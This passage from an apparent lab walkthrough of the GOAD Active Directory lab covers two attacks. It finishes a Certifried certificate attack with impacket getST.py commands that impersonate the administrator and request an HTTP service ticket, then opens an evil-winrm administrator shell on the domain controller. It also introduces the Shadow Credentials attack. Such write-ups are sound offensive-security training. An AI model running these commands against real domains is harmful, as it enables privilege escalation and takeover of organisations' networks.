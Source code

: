 ![adcs_exploit_certifried_shell.png](/assets/blog/GOAD/adcs_exploit_certifried_shell.png)

- We could also do the same thing but with winrm to be even more legit :)

```bash
export KRB5CCNAME=/workspace/certifried/meereen.ccache
python3 /opt/tools/myimpacket/examples/getST.py -self -impersonate 'administrator' -altservice 'HTTP/meereen.essos.local' -k -no-pass -dc-ip 'meereen.essos.local' 'essos.local'/'meereen'
```

> Note : Here we asked an altservice HTTP/meereen.essos.local for winrm usage

```bash
export KRB5CCNAME=/workspace/certifried/administrator@HTTP_meereen.essos.local@ESSOS.LOCAL.ccache
evil-winrm -i meereen.essos.local -r ESSOS.LOCAL
```

![adcs_exploit_certifried_shell_winrm.png](/assets/blog/GOAD/adcs_exploit_certifried_shell_winrm.png)

- and voilà :)

## Shadow Credentials

- Shadow credentials attack consist of using the GenericAll or GenericWrite privilege on a user or computer to set up the attribute msDS-KeyCredentialLink. explanations [here](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)

- You can get the dacl movement on shutdown (@_nwodtuhs) website, the hacker recipes : [https://www.thehacker.recipes/ad/movement/dacl](https://www.thehacker.recipes/ad/movement/dacl)
